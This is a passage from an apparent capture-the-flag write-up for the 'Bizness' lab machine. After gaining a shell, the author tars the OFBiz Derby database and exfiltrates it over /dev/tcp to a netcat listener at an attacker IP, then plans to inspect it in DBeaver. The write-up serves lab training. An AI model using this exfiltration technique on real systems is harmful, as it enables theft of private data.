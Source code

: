 To investigate the db we first transfer it locally.

Setting up local netcat listener.

```shell
labadmin@labmachine:~/bizness $ nc -lvnp 8001 > ofbiz.tar
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on [::]:8001
Ncat: Listening on 0.0.0.0:8001
```

Next we prepare and send the files.

```shell
ofbiz@bizness:/opt/ofbiz$ cd /opt/ofbiz/runtime/data/derby
cd /opt/ofbiz/runtime/data/derby
ofbiz@bizness:/opt/ofbiz/runtime/data/derby$ tar cvf ofbiz.tar ofbiz
tar cvf ofbiz.tar ofbiz
ofbiz/
ofbiz/service.properties
ofbiz/seg0/
ofbiz/seg0/c10001.dat
ofbiz/seg0/c7161.dat
[...OMITTED...]
ofbiz@bizness:/opt/ofbiz/runtime/data/derby$ cat ofbiz.tar > /dev/tcp/10.10.14.35/8001
<ta/derby$ cat ofbiz.tar > /dev/tcp/10.10.14.35/8001
ofbiz@bizness:/opt/ofbiz/runtime/data/derby$
```

To open the local database we will use DBeaver in windows. So first we transfer the file to our windows environment.

Then we open DBeaver and select the database type as "Derby Embedded".

![bizness5](./assets/bizness5.png)
